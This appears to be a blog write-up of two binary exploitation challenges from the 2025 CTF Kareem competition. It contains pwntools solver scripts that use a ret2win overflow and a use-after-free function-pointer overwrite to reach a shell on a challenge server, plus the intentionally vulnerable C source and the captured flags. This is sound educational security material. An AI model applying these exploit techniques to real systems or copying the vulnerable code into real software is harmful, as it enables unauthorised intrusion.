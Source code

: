 ```yaml
---
title: CTF Kareem Writeups
description: This is a writeup of the challenges I have solved during the CTF kareem organized by Securinet TEKUP.
author: alternox
date: 2025-03-15 12:00:00 +0000
categories: [Blogging, Writeups]
tags: [Writeups]
render_with_liquid: false
image:
  path: /assets/img/ctfkareem2025/ctfkareemlogo.jpg
---
```


بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ


## Event description

CTF Kareem was a CTF orgnanized by Securinets TEKUP During Ramadhan, an overnight CTF for about 10.30 Hours, me and my team played as "Kaskrout b tey" and landed the first place.

![Scoreboard](/assets/img/ctfkareem2025/scoreboard.jpg)

## Binary Exploitation
### The River's Daughter
Challenge: 
![First Pwn Task](/assets/img/ctfkareem2025/pwntask1.png)

This is a simple ret2win challenge, so we do the usual, calculating the offset then getting the win address:

```python
#!/bin/python3
from pwn import *

local = False
name = 'main' 
e = ELF(name)
if local:
	p = process(name)
else:
	p = remote("51.77.140.155", 1329)
rop = ROP(e)

ret= 0x000000000040101a
win = 0x000000000040132d

payload = cyclic(64+8)
payload += p64(win+1)
p.recv()
p.sendline(payload)
p.interactive()
```

![First Pwn Task](/assets/img/ctfkareem2025/pwntask1solved.png)

flag : `Securinets{sh3_1s_th3_FL4G}`

### Patrick Bateman
Challenge: 
![First Pwn Task](/assets/img/ctfkareem2025/pwntask2.png)

This challenge was a bit tricky, but it had the cource code attached to it:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>

typedef struct string {
    uint64_t length;
    char *data;
    void (*print_string) (char*);
}string;

void hacked() {
    system("/bin/sh");  
}

void print_string(char* s){
    printf("%s", s);
}

int main() {
    string *s = malloc(sizeof(string));  
    if (s == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("welcome patrick give the string length: ");
    scanf("%u", &s->length);

    s->data = malloc(s->length + 1);
    if (s->data == NULL) {
        perror("malloc failed");
        return 1;
    }
    memset(s->data, 0, s->length + 1);

    puts("Enter something");
    read(0, s->data, s->length);
    s->print_string = print_string;
    free(s->data);  
    free(s);        

    char *s2 = malloc(24);  
    if (s2 == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("Enter more");
    read(0, s2, 24);

    printf("well? this is your thing\n");
    s->print_string(s->data);

    free(s2);
    return 0;
}
```

solver: 

```python
#!/bin/python3
from pwn import *
local = False
name = 'heap' 
e = ELF(name)

if local:
	p = process(name)
else:
	p = remote("51.77.140.155", 1403)

rop = ROP(e)

win = 0x0000000000401289

p.recv()
p.sendline(b'8')
p.recv()
p.sendline(cyclic(7))
p.recv()
p.sendline(cyclic(16) + p64(0x0401289))
p.interactive()

```
